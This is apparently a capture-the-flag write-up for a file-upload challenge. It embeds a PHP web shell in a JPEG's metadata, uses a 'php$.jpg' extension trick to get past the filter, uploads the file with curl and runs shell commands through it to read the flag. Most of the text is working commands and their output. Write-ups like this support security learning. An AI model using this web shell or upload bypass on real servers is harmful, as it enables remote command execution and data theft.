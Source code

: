 ```sh
exiftool -comment='<?php echo shell_exec($_GET["c"]); ?>' monkey.jpg
```

**Note**: ```$_GET["c"]```, not ```$_GET['c']```!

Then rename a file

```sh
mv monkey.jpg monkey.php$.jpg
```

Upload file
```sh
curl -X POST -i -F "file=@monkey.php$.jpg" -F "name=hello" -i http://35.222.114.240:8002/chal/upload.php | grep href
```
```
File uploaded successfully. <a href='uploaded/40bb9a2089b6040bd97aa81bedf9dc759cbb64d842b14457d3ee014888d076b0/monkey.php' target='_blank'>Open File</a>
```

The flag is at ```/var/www/html/chal/REDACTED.txt```, and the uploaded file is at ```/var/www/html/chal/uploaded/generateHashedDirectory($userName)/myname.php```, so we need to travel back twice to read flag.

```sh
curl -i http://35.222.114.240:8002/chal/uploaded/40bb9a2089b6040bd97aa81bedf9dc759cbb64d842b14457d3ee014888d076b0/monkey.php?c=cd+../../\;+ls+-la --output output.txt
```

There it is
```sh
drwxr-x--- 1 root     ctf-player    4096 Dec 16 10:49 .
drwxrwxrwx 1 www-data www-data      4096 Dec 17 21:29 ..
-rwxr-x--- 1 root     ctf-player      69 Dec 16 10:36 s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
-rwxr-x--- 1 root     ctf-player    3939 Dec 16 10:36 upload.php
drwxrwxrwx 1 root     ctf-player 3551232 Dec 22 15:42 uploaded
```

Let's get the flag

```sh
curl -i http://35.222.114.240:8002/chal/uploaded/40bb9a2089b6040bd97aa81bedf9dc759cbb64d842b14457d3ee014888d076b0/monkey.php?c=cd+../../\;+cat+s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
```

The flag is
```
flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}
```